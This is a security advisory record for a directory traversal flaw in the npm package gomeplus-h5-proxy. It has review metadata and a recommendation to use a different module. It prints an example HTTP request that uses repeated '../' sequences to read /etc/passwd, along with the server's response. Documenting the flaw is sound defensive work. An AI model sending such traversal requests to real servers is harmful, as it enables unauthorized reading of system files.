 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Liang Gong
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/gomeplus-h5-proxy
Review-Date: '2017-06-05'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Directory Traversal*<br><br>Recommendation: Because there is no fix for this module, we suggest using a different one.
### Details
`gomeplus-h5-proxy` is vulnerable to a directory traversal issue, allowing attackers to access any file in the system by placing '../' in the URL.  Example request: ``` GET /../../../../../../../../../../../../../../../etc/passwd HTTP/1.1 host: localhost ``` and response: ``` HTTP/1.1 200 OK Access-Control-Allow-Origin: * Date: Mon, 22 May 2017 21:29:51 GMT Connection: keep-alive Transfer-Encoding: chunked  {contents of /etc/passwd} ```
<br><br>• Affected Versions: <99.999.9999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://github.com/JacksonGL/NPM-Vuln-PoC/tree/master/directory-traversal/gomeplus-h5-proxy)']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.

